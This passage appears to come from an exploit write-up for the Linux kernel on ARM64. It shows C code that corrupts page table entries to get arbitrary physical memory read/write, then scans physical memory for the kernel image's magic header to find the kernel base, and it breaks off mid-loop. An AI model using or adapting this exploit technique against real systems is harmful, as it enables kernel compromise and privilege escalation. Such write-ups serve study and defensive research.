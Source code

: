```C
	}
}

...

*(uint64_t *) evil = leak; // [1] self-pointer
munmap(evil, 4096);

...

offset_pgt = 8;
*(uint64_t *) (victim + offset_pgt) = pte;

...

/* locate buffer to manage phys r/w */
found = 0;
page = NULL;
for (uint32_t i = 0; i < TLB; i++) {

	if ((char *) (full_tlb + i * 512) == victim) continue;

	if (full_tlb[i * 512] != i && full_tlb[(i * 512) + 1] != i) {
		printf("[+] found victim page at virtual buffer full_tlb 0x%lx\n", (uint64_t) (full_tlb + i * 512));
		page = (char *) (full_tlb + i * 512);
		found = 1;
		break;
	}
}
```

We now have full phys r/w.

## Locate kernel

If we look at `/proc/iomem` as root we can see where we can start to search. In this case at `0x80000000`.

```C
80000000-911fffff : System RAM
801b8000-81e17fff : Kernel code
81e18000-81f97fff : reserved
81f98000-82517fff : Kernel data
85100000-86376fff : reserved
87fff000-87ffffff : reserved
8ffff000-90039fff : reserved
```

Then we are going to search for the magic header at kernel base `_text`.

```C
#define LINUX_ARM64_IMAGE_MAGIC 0x644d5241
/* search kernel phys base */
found = 0;
uint32_t phys_base;
for (uint64_t j = 0; j < 0x1000; j++) {

	/* replace tlb cache */
	replace_tlb();

	*(uint64_t *) (victim + offset_pgt) = (j * (1 << (3 * 4))) | MEMSTART | 0xe8000000000f43;
	
	/* replace tlb cache */
	replace_tlb();
```